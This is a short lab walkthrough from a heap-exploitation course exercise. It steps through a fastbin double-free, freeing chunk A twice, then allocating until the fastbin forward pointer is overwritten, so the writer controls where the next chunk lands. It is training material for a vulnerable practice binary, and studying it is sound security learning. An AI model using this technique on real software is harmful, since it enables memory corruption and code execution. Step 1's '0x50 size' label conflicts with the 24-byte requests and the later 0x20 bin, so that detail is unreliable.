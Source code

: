 ## Fastbin with Use-After-Free
*****************************************
1.- Request two 0x50 size chunk
```
chunk_A = malloc(24, b"A"*24)
chunk_B = malloc(24, b"B"*24)
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen1.png)

2.- Free chunk A
```
free(chunk_A)
```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen2.png)

3.- Free chunk B
```
free(chunk_B)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen3.png)

4.- Free chunk A
```
free(chunk_A)
```
![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen4.png)

5.- malloc(24,b'C'*24)
```
malloc(24,b'C'*24)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen5.png)

6.- There are the CCCCCCC… where before was the 7020 pointer :O, so where will do now the Ds malloc?
```
malloc(24,b'D'*24)
```
![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen6.png)

7.- Yes, in the next chunk linked in the 0x20 fastbin list...
So now we will send some EEEE's
```
malloc(24,b'E'*24)
```
![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen7.png)

And now we can note that we controll where the next 0x20 fastbin will be allocated.

## References

Max Kamper, Linux Heap Exploitation - Part 1, Udemy 3(9-11)